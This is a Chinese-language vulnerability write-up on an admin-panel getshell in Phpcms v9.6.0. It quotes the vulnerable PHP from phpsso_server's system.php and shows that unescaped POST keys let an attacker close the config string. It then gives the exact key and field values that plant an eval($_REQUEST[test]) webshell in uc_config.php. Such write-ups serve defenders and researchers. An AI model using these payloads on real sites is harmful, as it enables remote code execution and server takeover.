

Phpcms v9.6.0后台getshell
=========================

一、漏洞简介
------------

phpsso\_server 后台getshell

二、漏洞影响
------------

Phpcms v9.6.0

三、复现过程
------------

漏洞来自于ROOTDIR/phpsso\_server/phpcms/modules/admin/system.php

    public function uc() {
            if (isset($_POST['dosubmit'])) {
                $data = isset($_POST['data']) ? $_POST['data'] : '';
                $data['ucuse'] = isset($_POST['ucuse']) && intval($_POST['ucuse']) ? intval($_POST['ucuse']) : 0;
                $filepath = CACHE_PATH.'configs'.DIRECTORY_SEPARATOR.'system.php';
                $config = include $filepath;
                $uc_config = '<?php '."\ndefine('UC_CONNECT', 'mysql');\n";
                foreach ($data as $k => $v) {
                    $old[] = "'$k'=>'".(isset($config[$k]) ? $config[$k] : $v)."',";
                    $new[] = "'$k'=>'$v',";
                    $uc_config .= "define('".strtoupper($k)."', '$v');\n";
                }
                $html = file_get_contents($filepath);
                $html = str_replace($old, $new, $html);
                $uc_config_filepath = CACHE_PATH.'configs'.DIRECTORY_SEPARATOR.'uc_config.php';
                @file_put_contents($uc_config_filepath, $uc_config);
                @file_put_contents($filepath, $html);
                $this->db->insert(array('name'=>'ucenter', 'data'=>array2string($data)), 1,1);
                showmessage(L('operation_success'), HTTP_REFERER);
            }
            $data = array();
            $r = $this->db->get_one(array('name'=>'ucenter'));
            if ($r) {
                $data = string2array($r['data']);
            }
            include $this->admin_tpl('system_uc');
        }

来自这段中的

\$data = isset(\$\_POST\[\'data\'\]) ? \$\_POST\[\'data\'\] : \'\';

和

foreach (\$data as \$k =\> \$v) {\$old\[\] = \"\'\$k\'=\>\'\".(isset(\$config\[\$k\]) ? \$config\[\$k\] :
\$v).\"\',\";\$new\[\] = \"\'\$k\'=\>\'\$v\',\";\$uc\_config .= \"define(\'\".strtoupper(\$k).\"\', \'\$v\');\\n\";}

这里接收post\[\'data\'\]数据中的key，value并写入配置文件ROOTDIR/phpsso\_server/caches/configs/uc\_config.php中

在ROOTDIR/phpcms/libs/classes/param.class.php中

    public function __construct() {
            if(!get_magic_quotes_gpc()) {
                $_POST = new_addslashes($_POST);
                $_GET = new_addslashes($_GET);
                $_REQUEST = new_addslashes($_REQUEST);
                $_COOKIE = new_addslashes($_COOKIE);
            }

全局过滤了post，但是这里只过滤了value，并没有过滤key

在这个地方，我们可以构造

    name="data[uc_api','11');/*]"

并在Ucenter api 地址输入:

    */eval($_REQUEST[test]);//

再进行缓存更新

就成功写入了一句话

